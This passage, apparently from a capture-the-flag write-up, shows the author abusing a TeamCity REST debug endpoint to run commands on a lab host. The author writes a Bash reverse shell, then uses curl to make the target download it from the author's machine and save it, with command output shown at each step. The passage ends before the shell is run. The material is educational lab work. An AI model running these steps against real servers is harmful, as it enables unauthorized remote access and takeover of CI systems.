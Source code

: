 But `curl` is:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=curl' -H "Authorization: Bearer $TOKEN"
StdOut:/usr/bin/curl

StdErr: 
Exit code: 0
Time: 19ms

```

I’ll write a simple [Bash reverse shell](https://www.youtube.com/watch?v=OjkVep2ElIw) and save it on my VM as `rev.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

I am able to fetch it with `curl`:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=curl&params=10.10.14.6/rev.sh' -H "Authorization: Bearer $TOKEN"
StdOut:#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

StdErr:   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100    53  100    53    0     0    297      0 --:--:-- --:--:-- --:--:--   297

Exit code: 0
Time: 214ms

```

I’ll run again, this time with `-o rev.sh`:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=curl&params=10.10.14.6/rev.sh&params=-o&params=rev.sh' -H "Authorization: Bearer $TOKEN"
StdOut:
StdErr:   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100    53  100    53    0     0    297      0 --:--:-- --:--:-- --:--:--   296

Exit code: 0
Time: 215ms

```
